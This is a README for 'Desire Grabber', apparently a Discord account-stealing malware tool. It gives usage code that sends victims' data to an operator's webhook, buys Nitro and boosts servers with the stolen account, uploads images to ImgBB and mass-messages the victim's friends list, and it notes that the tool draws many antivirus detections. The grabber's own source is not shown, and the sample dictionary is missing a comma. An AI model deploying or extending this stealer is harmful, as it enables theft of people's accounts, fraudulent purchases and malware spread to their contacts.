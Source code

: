 # Desire Grabber
- Multiple features, but the downside is the amount of detections it gets.

# Normal Usage
Add this to the bottom of the code:
```py
if __name__ == "__main__":
    desire = Desire(
        webhook="https://your-webhook.com/",
        ping="@everyone / <@user_id>",
        nitro={
            "identifier": "boost"
            "duration": "month"
        },
        boost={
            "invite": "discord-developers",
            "guild_id": 0000000000000000
        },
        imgbb="ImgBB API Key",
        direct_message="Mass DM Friends List Message."
    )
    desire.start()
```

# Module Usage
```py
from main import Desire

if __name__ == "__main__":
    desire = Desire(
        webhook="https://your-webhook.com/",
        ping="@everyone / <@user_id>",
        nitro={
            "identifier": "boost"
            "duration": "month"
        },
        boost={
            "invite": "discord-developers",
            "guild_id": 0000000000000000
        },
        imgbb="ImgBB API Key",
        direct_message="Mass DM Friends List Message."
    )
    desire.start()
```
